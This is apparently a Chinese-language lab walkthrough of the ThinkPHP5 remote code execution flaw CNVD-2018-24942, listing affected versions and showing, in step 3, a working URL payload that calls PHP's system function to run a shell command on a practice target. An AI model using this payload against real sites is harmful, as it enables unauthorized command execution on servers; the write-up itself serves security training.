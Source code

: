 # ThinkPHP5 远程代码执行漏洞（CNVD-2018-24942）by  [M2ayill](https://github.com/M2ayill)

## 一、漏洞描述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 二、影响产品

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 三、利用流程

1 此漏洞对应靶场环境为 thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)

![avatar](./24942-1.png)

2 访问其如图所示

![avatar](./24942-2.png)

3 在其地址增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```

4 成功得到 flag

![avatar](./24942-3.png)

参考：

https://www.cnvd.org.cn/flaw/show/CNVD-2018-24942

